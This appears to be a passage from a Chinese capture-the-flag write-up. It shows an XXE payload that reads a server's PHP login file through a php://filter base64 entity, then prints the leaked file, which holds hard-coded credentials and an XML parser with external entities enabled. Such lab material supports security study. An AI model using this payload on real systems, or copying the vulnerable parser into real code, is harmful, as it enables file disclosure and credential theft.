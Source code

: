 ![image-20221026123210924](/images/buuctf-web2/image-20221026123210924.png)





```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[                                                 
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/doLogin.php">
]>

<user><username>&xxe;</username><password>124</password></user>
```

输出一下`doLogin`的源码:

```php
<?php
/**
* autor: c0ny1
* date: 2018-2-7
*/

$USERNAME = 'admin'; //账号
$PASSWORD = '024b87931a03f738fff6693ce0a78c88'; //密码
$result = null;

libxml_disable_entity_loader(false);
$xmlfile = file_get_contents('php://input');

try{
	$dom = new DOMDocument();
	$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD);
	$creds = simplexml_import_dom($dom);

	$username = $creds->username;
	$password = $creds->password;

	if($username == $USERNAME && $password == $PASSWORD){
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",1,$username);
	}else{
		$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",0,$username);
	}	
}catch(Exception $e){
	$result = sprintf("<result><code>%d</code><msg>%s</msg></result>",3,$e->getMessage());
}

header('Content-Type: text/html; charset=utf-8');
echo $result;
?>
```
